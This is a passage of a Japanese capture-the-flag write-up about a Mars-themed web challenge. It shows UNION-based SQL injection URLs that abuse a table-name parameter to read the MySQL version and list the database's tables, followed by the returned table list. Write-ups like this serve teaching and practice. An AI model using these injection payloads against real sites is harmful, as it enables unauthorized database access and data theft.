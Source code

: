 ```html
          <h4 id="results">
            This is a website about life on Mars. It includes much information
            on various species in only some of the Martian terrain.
          </h4>
        </div>
      </div>
    </div>
  </body>
</html>
```

`Amazonis Planitia` や `Olympus Mons` のようなリンクをクリックすると `Name` と `Description` というカラム名のテーブルが表示されました。Google Chrome の DevTools で Network タブを開いて観察していると、それぞれ `/query?search=amazonis_planitia&{}&_=(タイムスタンプ)` と `/query?search=olympus_mons&{}&_=(タイムスタンプ)` へのリクエストが飛んでいることが確認できました。返ってきたレスポンスはテーブルに表示するための JSON のようで、`[["Aaamazzarite","…"], …, ["Zakdorns",""]]` というような内容でした。

これは SQLi のにおいがします。GET パラメータの `search` を `' or 1;#` や `" or 1;#` に変えても `1` としか返ってきません。おそらくエラーでしょう。もしかして `SELECT name, description FROM (search)` のようにテーブル名部分に `search` をそのまま挿入しているのではないかと考え `/query?search=olympus_mons%20where%200%20union%20select%201,2;%23` にアクセスしてみたところ、`[["1","2"]]` が返ってきました。思っていた通りのようです。

`/query?search=olympus_mons%20where%200%20union%20select%201,version();%23` にアクセスすると `[["1","5.7.29"]]` が返ってきました。`5.7.29` でググると MySQL のドキュメントが多くヒットすることから、MySQL が使われていることが推測できます。`information_schema.tables` からテーブル情報を取得しましょう。`/query?search=olympus_mons%20where%200%20union%20select%20table_name,table_schema%20from%20information_schema.tables;%23` にアクセスすると以下のような JSON が返ってきました。

```
[["CHARACTER_SETS","information_schema"],["COLLATIONS","information_schema"],["COLLATION_CHARACTER_SET_APPLICABILITY","information_schema"],["COLUMNS","information_schema"],["COLUMN_PRIVILEGES","information_schema"],["ENGINES","information_schema"],["EVENTS","information_schema"],["FILES","information_schema"],["GLOBAL_STATUS","information_schema"],["GLOBAL_VARIABLES","information_schema"],["KEY_COLUMN_USAGE","information_schema"],["OPTIMIZER_TRACE","information_schema"],["PARAMETERS","information_schema"],["PARTITIONS","information_schema"],["PLUGINS","information_schema"],["PROCESSLIST","information_schema"],["PROFILING","information_schema"],["REFERENTIAL_CONSTRAINTS","information_schema"],["ROUTINES","information_schema"],["SCHEMATA","information_schema"],["SCHEMA_PRIVILEGES","information_schema"],["SESSION_STATUS","information_schema"],["SESSION_VARIABLES","information_schema"],["STATISTICS","information_schema"],["TABLES","information_schema"],["TABLESPACES","information_schema"],["TABLE_CONSTRAINTS","information_schema"],["TABLE_PRIVILEGES","information_schema"],["TRIGGERS","information_schema"],["USER_PRIVILEGES","information_schema"],["VIEWS","information_schema"],["INNODB_LOCKS","information_schema"],["INNODB_TRX","information_schema"],["INNODB_SYS_DATAFILES","information_schema"],["INNODB_FT_CONFIG","information_schema"],["INNODB_SYS_VIRTUAL","information_schema"],["INNODB_CMP","information_schema"],["INNODB_FT_BEING_DELETED","information_schema"],["INNODB_CMP_RESET","information_schema"],["INNODB_CMP_PER_INDEX","information_schema"],["INNODB_CMPMEM_RESET","information_schema"],["INNODB_FT_DELETED","information_schema"],["INNODB_BUFFER_PAGE_LRU","information_schema"],["INNODB_LOCK_WAITS","information_schema"],["INNODB_TEMP_TABLE_INFO","information_schema"],["INNODB_SYS_INDEXES","information_schema"],["INNODB_SYS_TABLES","information_schema"],["INNODB_SYS_FIELDS","information_schema"],["INNODB_CMP_PER_INDEX_RESET","information_schema"],["INNODB_BUFFER_PAGE","information_schema"],["INNODB_FT_DEFAULT_STOPWORD","information_schema"],["INNODB_FT_INDEX_TABLE","information_schema"],["INNODB_FT_INDEX_CACHE","information_schema"],["INNODB_SYS_TABLESPACES","information_schema"],["INNODB_METRICS","information_schema"],["INNODB_SYS_FOREIGN_COLS","information_schema"],["INNODB_CMPMEM","information_schema"],["INNODB_BUFFER_POOL_STATS","information_schema"],["INNODB_SYS_COLUMNS","information_schema"],["INNODB_SYS_FOREIGN","information_schema"],["INNODB_SYS_TABLESTATS","information_schema"],["code","alien_code"],["amazonis_planitia","aliens"],["arabia_terra","aliens"],["chryse_planitia","aliens"],["hellas_basin","aliens"],["hesperia_planum","aliens"],["noachis_terra","aliens"],["olympus_mons","aliens"],["tharsis_rise","aliens"],["utopia_basin","aliens"]]
```
